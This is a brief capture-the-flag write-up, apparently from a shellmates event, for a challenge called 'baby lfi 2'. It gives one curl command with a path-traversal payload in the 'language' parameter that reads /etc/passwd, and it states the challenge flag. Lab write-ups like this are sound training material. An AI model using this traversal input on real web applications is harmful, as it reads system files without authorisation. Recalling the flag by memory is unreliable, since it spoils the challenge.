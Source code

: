# baby lfi 2

## Write-up

```bash
curl -v '[DOMAIN]?language=./languages/../../../../etc/passwd'
```

## Flag

`shellmates{yOU_M4De_yOUr_waY_7hRough_iT}`
